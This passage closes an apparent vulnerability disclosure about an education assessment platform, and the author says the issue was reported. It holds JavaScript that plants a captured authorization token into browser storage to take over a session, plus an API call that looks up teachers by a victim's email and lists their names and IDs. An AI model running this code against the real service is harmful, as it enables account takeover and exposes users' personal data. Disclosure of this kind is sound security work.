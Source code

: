 ```js
            "accept": "application/json, text/plain, */*",
            "authorization": token
          },
          "method": "GET"
        })

        userresp = await userresp.json()
        userresp = userresp.result

        var new_key = `user:${userresp._id}:role:${userresp.role}`;
        localStorage.setItem("tokens", `["${new_key}"]`);
        localStorage.setItem(new_key, token);
        sessionStorage.setItem("tokenKey", new_key);

        window.location.href = "https://assessment.peardeck.com/";
      }
})()
```

Global email search (as I said before, this only worked BEFORE choosing a district to enroll to):

```js
var userEmailString = ""; // email of victim

fetch("https://app.edulastic.com/api/user/search", {
  headers: {
    "accept": "application/json, text/plain, */*",
    "authorization": localStorage[JSON.parse(localStorage.tokens)[0]],
    "content-type": "application/json"
  },
  body: JSON.stringify({
    limit: 50,
    page: 1,
    type: "INDIVIDUAL",
    search: {
      role: ["teacher"],
      searchString: userEmailString,
      status: 1
    }
  }),
  method: "POST"
})
  .then(response => response.json())
  .then(data => {
    if (data.result && data.result.data && data.result.data.length > 0) {
      data.result.data.forEach(user => {
        const firstName = user._source.firstName || "Unknown";
        const lastName = user._source.lastName || "Unknown";
        const userId = user._id || "Unknown ID";
        console.log(`Found user ID for ${firstName} ${lastName}: ${userId}`);
      });
    } else {
      console.log("No users found for the given email.");
    }
  })
  .catch(error => console.error("Error:", error));
```

## End 

It was cool reporting this

- doxr
